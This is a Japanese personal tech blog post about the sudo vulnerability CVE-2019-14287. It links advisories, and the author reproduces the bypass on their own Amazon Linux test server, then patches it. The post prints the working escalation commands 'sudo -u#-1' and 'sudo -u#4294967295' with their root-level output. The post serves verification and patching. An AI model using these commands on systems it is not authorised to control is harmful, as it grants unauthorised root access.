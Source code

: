 +++
title = "sudo コマンドの脆弱性 CVE-2019-14287 メモ"
tags = ["linux"]
categories = ["SE"]
date = "2019-10-15"
description = "なかなかお手軽に OS の root 権限を取得できてしまう脆弱性が報告されてので調べておく"
menu = ""
banner = "banners/bunner_tech.jpg"
images = []
+++

<!--more-->

## ニュース情報
情報が出始めたのは15日朝くらいからかな  

Engadget JP  
<div class="iframely-embed"><div class="iframely-responsive" style="height: 140px; padding-bottom: 0;"><a href="https://japanese.engadget.com/2019/10/14/linux-sudo-root-id/" data-iframely-url="//cdn.iframe.ly/VX58TN6"></a></div></div><script async src="//cdn.iframe.ly/embed.js" charset="utf-8"></script>  

SIOS  
<div class="iframely-embed"><div class="iframely-responsive" style="height: 140px; padding-bottom: 0;"><a href="https://security.sios.com/vulnerability/sudo-security-vulnerability-20191015.html" data-iframely-url="//cdn.iframe.ly/6nz8XVr?iframe=card-small"></a></div></div><script async src="//cdn.iframe.ly/embed.js" charset="utf-8"></script>

Redhat  
<i class="fas fa-external-link-alt"></i> [CVE-2019-14287](https://access.redhat.com/security/cve/CVE-2019-14287)  

AWS  
<i class="fas fa-external-link-alt"></i> [ALAS-2019-1309](https://alas.aws.amazon.com/ALAS-2019-1309.html)  

## 内容  
脆弱性を利用するには ユーザーが任意のユーザーIDでコマンドを実行できるsudo特権を持っている必要があり、ユーザーのsudoersエントリのRunas指定子に特別な値ALLがある必要がある  
Redhatのサイトを見る限り脆弱性の影響を受ける Redhat系OS は 6～8 、サポートする全てだ  
またサイトを見る限りはまだ15日 21時現在では パッチアップデートは出てないのかな？  
AWSはアップデートパッケージ出してるからもうすぐ出るか、サイトに書いてないだけで出てるかも  

マルチテナント、ホスティングとかでサーバを提供しているサービス会社はすぐアップデートしたほうがいいですね  
特にサービス停止とか必要そうなアップデート作業でもなさそうだし  

ただ結構 sudo の書式も含めて本脆弱性に該当しそうな環境って意外と少ないんじゃないかと思ってる  
root も含めて全部許可か、 特定のユーザー権限のみ許可とかそういう記述が多いんじゃなかろうか  
とわいえ複数社、複数担当がOSにログインする、それらを sudo で細かく権限制御している、とかであればとりあえず充てとこう  

### 確認
SIOSのサイトを参考に本当にできるのか見てみる  

sudo ALL権限を持つユーザーを作成  

```
# cat /etc/sudoers.d/testgrp
%test ALL=(ALL, !root) ALL

# id test
uid=10003(test) gid=10003(test) groups=10003(test)
```

sudo コマンドのバージョン確認  

```
$ rpm -qa |grep sudo
sudo-1.8.19p2-14.amzn2.x86_64
```

`-1` ユーザー ID を指定してコマンドを実行してみる  
権限的には見れないログファイルも。。。。  

```
$ sudo tail /var/log/messages
[sudo] test のパスワード:
ユーザー test は'/bin/tail /var/log/messages' を root として localhost 上で実行することは許可されていません。すみません 。

$ sudo -u#-1 tail /var/log/messages
[sudo] test のパスワード:
Oct 15 21:30:43 localhost freshclam[8559]: ClamAV update process started at Tue Oct 15 21:30:43 2019
```

見れた！すげー！！  

```
$ sudo -u#-1 id -u
[sudo] test のパスワード:
0

$ sudo -u#4294967295 id -u
[sudo] test のパスワード:
0

$ sudo -u#-1 id -g
[sudo] test のパスワード:
10003
```

ユーザーID はたしかに `0` になってる。グループはそのままだったけど  

### パッチアップデート  
AWSはパッチ出たみたいなので充ててみる  

```
# yum update sudo
========================================================================================================================
 Package               アーキテクチャー        バージョン                             リポジトリー                 容量
========================================================================================================================
更新します:
 sudo                  x86_64                  1.8.23-4.amzn2.0.1                     amzn2-core                  844 k

トランザクションの要約
========================================================================================================================
更新  1 パッケージ
```

アップデート後修正されているか確認  

```
$ sudo -u#-1 tail /var/log/messages
sudo: 不明なユーザーです: #-1
sudo: ポリシープラグインを初期化できません
```

なおった～  
おしまい  

{{< rawhtml >}}
<div style="border: dashed 1px #ccc;">
<a href="http://www.amazon.co.jp/exec/obidos/ASIN/4797380942/sinokyoufu-22/ref=nosim/" name="amazletlink" target="_blank"><img src="https://images-fe.ssl-images-amazon.com/images/I/51dqjMRTh3L._SL160_.jpg" alt="新しいLinuxの教科書" style="border: none;" /></a>
</div>
{{< /rawhtml >}}
